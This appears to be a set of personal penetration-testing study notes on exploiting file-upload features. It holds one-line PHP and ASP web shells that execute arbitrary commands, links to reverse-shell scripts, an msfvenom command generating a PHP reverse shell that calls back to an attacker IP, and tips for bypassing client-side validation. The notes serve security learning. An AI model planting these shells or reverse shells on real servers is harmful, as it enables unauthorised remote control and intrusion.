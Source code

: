 # Basic Exploitation

## Absent Validation

- `does not have any form of validation filters` -> allows any files to upload


- most commonly `Web Shell` script and a `Reverse Shell` script are used
	- but the script languages must be same with the vulnerable web
- identify using wappalyzer or extention (/index.php)

## Upload Exploitation

- upload shell to interact with the server
- good option for `PHP` is [phpbash](https://github.com/Arrexel/phpbash)


### Custom Web shell


```php
<?php system($_REQUEST['cmd']); ?>
```

```asp
<% eval request('cmd') %>
```


## Reverse Shell

- download a reverse shell script in the language of the web application
- reliable reverse shell for `PHP` is the [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell)
### Generating Custom Reverse Shell Scripts

- using metasploit

```shell
msfvenom -p php/reverse_php LHOST=10.10.14.251 LPORT=1111 -f raw > reverse.php
```


# Client-Side Validation

- validation only on frontend using js

### Back-end Request Modification

- intercept via burpsuite and modify the request

![[Pasted image 20240610111101.png]]

